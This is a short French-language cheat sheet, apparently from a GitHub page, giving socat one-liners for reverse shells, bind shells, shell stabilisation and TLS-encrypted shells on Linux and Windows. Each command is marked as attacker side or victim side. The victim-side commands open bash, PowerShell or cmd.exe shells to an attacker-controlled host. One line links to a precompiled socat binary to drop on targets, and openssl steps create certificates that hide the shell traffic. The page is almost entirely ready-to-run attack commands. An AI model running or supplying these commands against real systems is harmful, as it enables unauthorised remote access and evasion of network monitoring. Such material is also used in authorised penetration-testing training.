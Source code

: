 # Reverse shells

[Attaquant]
```
socat TCP-L:<port> -
```

Windows
```
socat TCP:<IP>:<PORT> EXEC:powershell.exe,pipes
```

Linux

```
socat TCP:<IP>:<PORT> EXEC:"bash -li"
```
<br>
<br>

# Bind Shells

Windows
```
socat TCP-L:<PORT> EXEC:powershell.exe,pipes
```

Linux
```
socat TCP-L:<PORT> EXEC:"bash -li"
```

[Attaquant]
```
socat TCP:<TARGET-IP>:<TARGET-PORT> -
```
<br>
<br>

### Stabiliser des shells avec socat

[Attaquant] target -> Linux
```
socat TCP-L:<port> FILE:`tty`,raw,echo=0
```

[Victime] <a href="https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true">Socat précompilé</a>
```
socat TCP:<attacker-ip>:<attacker-port> EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

<br>
<br>

### Shell encryptés !

Génération du certificat
```
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
```
cat shell.key shell.crt > shell.pem
```
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```

[Victime]

linux
```
socat OPENSSL:<IP>:<PORT>,verify=0 EXEC:/bin/bash,pty,stderr,sigint,setsid,sane
```
windows
```
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes
```

[Attaquant]
```
socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0 -
```
